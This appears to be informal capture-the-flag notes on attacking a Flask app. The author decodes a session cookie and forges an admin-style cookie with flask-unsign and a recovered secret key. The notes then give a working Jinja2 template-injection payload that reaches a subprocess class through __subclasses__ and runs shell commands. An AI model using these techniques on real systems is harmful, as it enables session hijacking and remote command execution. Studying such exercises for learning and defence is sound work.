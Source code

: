 The secret key might b the way to go forge admin session cookie

Need to inspect the cookie I have

Yay!

The same can be done with [Cyber Chef](https://gchq.github.io/CyberChef/):

- Put the cookie in the **Input** field
- Drag **From Base64** and **Zlib Inflate** into the **Recipe**
- Set the Base64 alphabet to **URL safe**
- Bake and poof! You get **Output** like:

Decode flask cookie <- 

```
{"_flashes":[{" t":["message","Registration successful! You can now log in."]},{" t":["message","Login successful!"]}],"user_id":3}

```

```
flask-unsign --sign -c '{"_flashes":[{" t":["message","Registration successful! You can now log in."]},{" t":["message","Login successful]}],"user_id":3}' --secret "7j4D5htxLHUiffsjLXB1z9GaZ5" --legacy 
.eJx1jLEKwzAMRH9F0Ry6dOs3ZMpWKhOMozgC14LIpkPwv9fZunS7u3c8PAmXLXnb2Qgfr16hXIHwzWY-MuFIOHMUK4cvohmshtDZVtMAT60QfIasH0gaQfKN0LXxj2fSKL8C11xfq_GxyNrv94ZfXUkyIw.Z-LfQQ.IOZDW0dlM8xDQSC51wBD6loDBPg

```


Forged a cookie as test 

can access user_id : 1 but nothing interesting

path to app:
/home/app-production/app/instance


# I think this is how i gotta do this but the index is not 253

```
render_template_string("{{''.__class__.__mro__[1].__subclasses__()[253]('id', shell=True, stdout=-1).communicate()[0]}}")
```


# Holly it finally worked -- this worked

```
print(render_template_string("{{''.__class__.__mro__[1].__subclasses__()[317]('id', shell=True, stdout=-1).communicate()[0]}}"))

print(''.__class__.__mro__[1].__subclasses__()[317]('id', shell=True, stdout=-1).communicate()[0])
```

